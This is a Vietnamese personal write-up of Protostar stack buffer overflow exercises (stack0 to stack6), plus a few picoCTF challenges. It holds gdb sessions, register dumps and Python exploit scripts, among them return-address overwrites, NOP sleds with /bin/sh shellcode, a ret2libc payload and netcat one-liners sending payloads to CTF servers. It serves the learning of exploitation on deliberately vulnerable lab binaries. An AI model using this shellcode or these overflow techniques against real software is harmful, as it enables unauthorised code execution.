


Hi xin chào ! 

Bài viết này về một số bài tập mình thực hiện trên[`https://exploit.education/protostar/`](https://exploit.education/protostar/) để luyện tập bufferOverflow. Tuy nhiên, nếu bạn muốn hiểu hơn thì hãy học về  cấu trúc ở phía dưới chủ yếu là stack nhé!!!



Hoặc bạn có thể xem video này [First Stack Buffer Overflow to modify Variable - bin 0x0C](https://www.youtube.com/watch?v=T03idxny9jE&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=14)

Mình học theo clip của anh ấy đó. 

# Một số câu lệnh hữu ích cho dbg

```
(gdb) set disassembly-flavor intel

; setting for better illustrate
define hook-stop
info registers
x/24wx $esp
x/2i
end
```

# ./stack0

khoảng cách từ 0xbffffc70 → 0xbffffca0 là khoảng 64 “A” khi đó chèn thêm 1 kí tự A sẽ được thêm vào eax.

```python
python -c 'print "A" * 65 '
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

vào chế độ `dbg stack0` 

- `0x08048415 <main+33>:   test   %eax,%eax` : break chỗ này

```

(gdb) b main
Breakpoint 1 at 0x80483fd: file stack0/stack0.c, line 10.
(gdb) b *0x08048415
Breakpoint 2 at 0x8048415: file stack0/stack0.c, line 13.

(gdb) c ; tại đây khi bạn continue đến 0x08048415 nó sẽ dừng lại và bạn nhập 
Continuing. ; 65 kí tự A hồi nãy vào 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

(gdb) c
Continuing.
eax            0x41     65
ecx            0xbffffc6c       -1073742740
edx            0xb7fd9334       -1208118476
ebx            0xb7fd7ff4       -1208123404
esp            0xbffffc50       0xbffffc50
ebp            0xbffffcb8       0xbffffcb8
esi            0x0      0
edi            0x0      0
eip            0x8048417        0x8048417 <main+35>
eflags         0x200206 [ PF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
0xbffffc50:     0xbffffc6c      0x00000001      0xb7fff8f8      0xb7f0186e
0xbffffc60:     0xb7fd7ff4      0xb7ec6165      0xbffffc78      0x41414141
0xbffffc70:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffc80:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffc90:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffca0:     0x41414141      0x41414141      0x41414141      0x00000041
0xbffffcb0:     push   %eax
0xbffffcb1:     test   %al,(%eax,%ecx,1)
```

Giải thích tại sao phải 65 kí tự A:

0xbffffc60:     0xb7fd7ff4      0xb7ec6165      0xbffffc78      `0x41414141`
0xbffffc70:     `0x41414141      0x41414141      0x41414141      0x41414141`
0xbffffc80:     `0x41414141      0x41414141      0x41414141      0x41414141`
0xbffffc90:     `0x41414141      0x41414141      0x41414141      0x41414141`
0xbffffca0:     `0x41414141      0x41414141      0x41414141      0x00000041`

bạn nhìn xem khoảng các từ `0xbffffc60` →  `0xbffffca0` : các phần mình đã tô màu đỏ đó thích các khoảng 16 `0x41414141` và giá trị thứ 17 `0x00000041`  sẽ là giá trị truyền vào `$eax`  mình đã show ở trên tức là chữ A thứ 65. 

```
(gdb) x/s $eax
0xbffffc6c:      'A' <repeats 65 times>
```

Mà mỗi một `0x41414141` chứa 4 chữ A.

Ok vậy khi đó bạn truyền chữ A vào  thì nó sẽ nằm ở trong `modified`  và nó khớp với điều kiện - hiển nhiên vì A ≠ 0 rồi !!

```python
if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
```

và hoàn thành bài  

```c
(gdb) c
Continuing.
you have changed the 'modified' variable
```

Okay các bài sau mình sẽ không giải thích j nữa đâu bạn có thắc mắc gì cứ email mình: longduiga0123@gmail.com

# ./stack1

```python
$ ./stack1 $(python -c 'print "A" * 64 + "dcba"')
you have correctly got the variable to the right value
```

- `Open to see the result`
    
    ```python
    (gdb) run $(python -c 'print "A" * (16*4) + "dcba"')
    Starting program: /opt/protostar/bin/stack1 $(python -c 'print "A" * (16*4) + "dcba"')
    eax            0xbffffd24       -1073742556
    ecx            0x311f8856       824150102
    edx            0x2      2
    ebx            0xb7fd7ff4       -1208123404
    esp            0xbffffc10       0xbffffc10
    ebp            0xbffffc78       0xbffffc78
    esi            0x0      0
    edi            0x0      0
    eip            0x804846d        0x804846d <main+9>
    eflags         0x200282 [ SF IF ID ]
    cs             0x73     115
    ss             0x7b     123
    ds             0x7b     123
    es             0x7b     123
    fs             0x0      0
    gs             0x33     51
    0xbffffc10:     0x00000000      0x00000001      0xb7fff8f8      0xb7f0186e
    0xbffffc20:     0xb7fd7ff4      0xb7ec6165      0xbffffc38      0xb7eada75
    0xbffffc30:     0xb7fd7ff4      0x080496fc      0xbffffc48      0x08048334
    0xbffffc40:     0xb7ff1040      0x080496fc      0xbffffc78      0x08048509
    0xbffffc50:     0xb7fd8304      0xb7fd7ff4      0x080484f0      0xbffffc78
    0xbffffc60:     0xb7ec6365      0xb7ff1040      0x080484fb      0xb7fd7ff4
    0xbffffc70:     lock test BYTE PTR [eax+ecx*1],al
    0xbffffc74:     add    BYTE PTR [eax],al
    
    Breakpoint 1, main (argc=2, argv=0xbffffd24) at stack1/stack1.c:11
    11      in stack1/stack1.c
    (gdb) c
    Continuing.
    eax            0xbffffc2c       -1073742804
    ecx            0x0      0
    edx            0x45     69
    ebx            0xb7fd7ff4       -1208123404
    esp            0xbffffc10       0xbffffc10
    ebp            0xbffffc78       0xbffffc78
    esi            0x0      0
    edi            0x0      0
    eip            0x80484a7        0x80484a7 <main+67>
    eflags         0x200246 [ PF ZF IF ID ]
    cs             0x73     115
    ss             0x7b     123
    ds             0x7b     123
    es             0x7b     123
    fs             0x0      0
    gs             0x33     51
    0xbffffc10:     0xbffffc2c      0xbffffe54      0xb7fff8f8      0xb7f0186e
    0xbffffc20:     0xb7fd7ff4      0xb7ec6165      0xbffffc38      0x41414141
    0xbffffc30:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffffc40:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffffc50:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffffc60:     0x41414141      0x41414141      0x41414141      0x61626364
    0xbffffc70:     add    BYTE PTR [esp+eax*1+0x8],al
    0xbffffc77:     add    al,bh
    
    Breakpoint 2, main (argc=2, argv=0xbffffd24) at stack1/stack1.c:18
    18      in stack1/stack1.c
    (gdb) c
    Continuing.
    eax            0x61626364       1633837924
    ecx            0x0      0
    edx            0x45     69
    ebx            0xb7fd7ff4       -1208123404
    esp            0xbffffc10       0xbffffc10
    ebp            0xbffffc78       0xbffffc78
    esi            0x0      0
    edi            0x0      0
    eip            0x80484b0        0x80484b0 <main+76>
    eflags         0x200246 [ PF ZF IF ID ]
    cs             0x73     115
    ss             0x7b     123
    ds             0x7b     123
    es             0x7b     123
    fs             0x0      0
    gs             0x33     51
    0xbffffc10:     0xbffffc2c      0xbffffe54      0xb7fff8f8      0xb7f0186e
    0xbffffc20:     0xb7fd7ff4      0xb7ec6165      0xbffffc38      0x41414141
    0xbffffc30:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffffc40:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffffc50:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffffc60:     0x41414141      0x41414141      0x41414141      0x61626364
    0xbffffc70:     add    BYTE PTR [esp+eax*1+0x8],al
    0xbffffc77:     add    al,bh
    
    Breakpoint 3, 0x080484b0 in main (argc=2, argv=0xbffffd24) at stack1/stack1.c:18
    
    ```
    

./stack2 $(python -c 'print "A" * 64 + "dcbstack2

# ./stack2

```python
GREENIE=$(python -c 'print "A" * 64 + "\x0a\x0d\x0a\x0d"') ./stack2
```

```python

$ GREENIE=$(python -c 'print "A" * 64 + "\x0a\x0d\x0a\x0d"') ./stack2
you have correctly modified the variable
```

# ./Stack3

```
define hook-stop
info registers
x/24wx $esp
x/2i
end

x main
x win 

b main
b *0x08048475

r < /tmp/check.txt ; cach run dung trong nhieu truong hop neu ban run kem voi $python se chi nhan gia tri cua ca python do thay vi la ket qua ma python do compile ra
```

```python
padding = ('aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnoooopppp')
padding += ('\x24\x84\x04\x08') # 0x8048424 <win>:
print(padding)
```

```
python checking.py > /tmp/check
```

# ./stack4

### checking where is eip

```
(gdb) r < /tmp/atoz
Starting program: /opt/protostar/bin/stack4 < /tmp/atoz

Program received signal SIGSEGV, Segmentation fault.
0x74747474 in ?? ()
(gdb) info registers
eax            0xbffffc70       -1073742736
ecx            0xbffffc70       -1073742736
edx            0xb7fd9334       -1208118476
ebx            0xb7fd7ff4       -1208123404
esp            0xbffffcc0       0xbffffcc0
ebp            0x73737373       0x73737373
esi            0x0      0
edi            0x0      0
eip            0x74747474       0x74747474
eflags         0x210246 [ PF ZF IF RF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51

```

Ban có thể thấy là eip hiện tại đang lấlấp đầy bởi `0x74747474`   tức là kí tự `q`


### Trỏ địa chỉ eip đến win

```python
import struct

padding = ('aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrr')

ebp = 'AAAA'# đặt giá trị bất kì j cx được

eip = struct.pack('I', 0x80483f4) # đảo ngược kí tự little endian để eip có thể ghi tới  được 

print(padding+ebp+eip)

```

Sau đó bạn lưu vào một file nào đó để run cho dễ nhé. - mình lưu checking

```python
(gdb) r < /tmp/checking
Starting program: /opt/protostar/bin/stack4 < /tmp/checking
code flow successfully changed

Program received signal SIGSEGV, Segmentation fault.
0x00000000 in ?? ()

```

```

$ cat /tmp/checking | ./stack4 ; muốn run không chay gdb thì như này nhé
code flow successfully changed
Segmentation fault

```

# ./stack5

```
(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
0x080483c4 <main+0>:    push   ebp
0x080483c5 <main+1>:    mov    ebp,esp
0x080483c7 <main+3>:    and    esp,0xfffffff0
0x080483ca <main+6>:    sub    esp,0x50
0x080483cd <main+9>:    lea    eax,[esp+0x10]
0x080483d1 <main+13>:   mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:   call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:   leave
0x080483da <main+22>:   ret
End of assembler dump.

```

```
;new define 
define hook-stop
x/1i $eip
x/8wx $esp
end

r < /tmp/stack5shell

x/200xb $esp+100
```

```python

import struct
eip =  struct.pack("I", 0xbffffcc0+64); cai nay neu nhu ban co xem clip cua ong anh thi  nen su dung gia tri + 64 de no nhay den dung phan nop
padding = 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS'
payload = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
#payloadt = "\xCC"*4
nop= "\x90"*100
print padding+eip+nop+payload

```

```python
(python /tmp/stack5.py ; cat ) | ./stack5

AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTabcd
```

```python

import struct
eip =  struct.pack("I", 0x08049280+64); cai nay neu nhu ban co xem clip cua ong anh thi  nen su dung gia tri + 64 de no nhay den dung phan nop
padding = 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLL'
payload = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
#payloadt = "\xCC"*4
nop= "\x90"*100
print padding+eip+nop+payload

```

# ./Stack6

## ROP

```

info proc map ; giup ban quan sat ko hieu thi tutu hieu hihi mik cx k hieu lam (ngay 24/11/2025

b getpath

```

```python
import struct

eip = struct.pack("I", 0xbffffcc0 + 50)
ret = struct.pack("I", 0x080484f9) # dia chi return tai getpath
padding = b'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIII'# bi overflow tai I
nop = b'\x90' * 100
payload = (
    b"\x31\xc0\x50\x68\x2f\x2f\x73\x68"
    b"\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1"
    b"\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
)

print(padding+ ret  + eip + nop + payload)

```

## RET2LIBCcc

```
 p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>

; dia chi noi chung ta nhay den system
```

### return

```
(gdb) info proc map
process 12595
cmdline = '/opt/protostar/bin/stack6'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/stack6'
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack6
         0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack6
        0xb7e96000 0xb7e97000     0x1000          0
      **  0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so**
        0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
        0xb7fd9000 0xb7fdc000     0x3000          0
        0xb7fde000 0xb7fe2000     0x4000          0
        0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
        0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
        0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
        0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
        0xbffeb000 0xc0000000    0x15000          0           [stack]

```

```
 strings -a -t x /lib/libc-2.11.2.so | grep "/bin/sh"
 11f3bf /bin/sh

```

```
(gdb) x/s 0xb7e97000+0x11f3bf
0xb7fb63bf:      "/bin/sh"

```

```

import struct
bin_sh= struct.pack("I", 0xb7fb63bf)
system = struct.pack("I", 0xb7ecffb0)
ret_after_sys = "AAAA"
padding ="0000AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS"
print(padding+ system +ret_after_sys +  bin_sh)

```

```
( python stack6_2.py  ; cat ) | /opt/protostar/bin/stack6
input path please: got path 0000AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLL                                                                                                                                                                                               MMMMNNNNOOOO▒▒▒QQQQRRRRSSSS▒▒▒AAAA▒c▒
LS
/bin/sh: LS: not found
ls
atoz      checking.py       py.save    stack5shell  stack6shell
check     checking.py.save  stack5     stack6_2.py
checking  check.txt         stack5.py  stack6.py

```

 `(printf  "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKK\xf6\x91\x04\x08" ; cat -) | nc [saturn.picoctf.net](http://saturn.picoctf.net/) 64167`

 `(python bo2_2.py ; cat -)` | nc [saturn.picoctf.net](http://saturn.picoctf.net/) 58955

`AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ`ec



```

import struct
eip = struct.pack("I", 0x08049296)
esp= struct.pack("I",0x08049372)
arv1= struct.pack("I",0xCAFEF00D)
arv2= struct.pack("I",0xF00DF00D)
padding = b'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZAAAABBBB'
print(padding+ eip + esp +arv1+ arv2)

(python bo2_2.py ; cat -) | nc saturn.picoctf.net 58955
```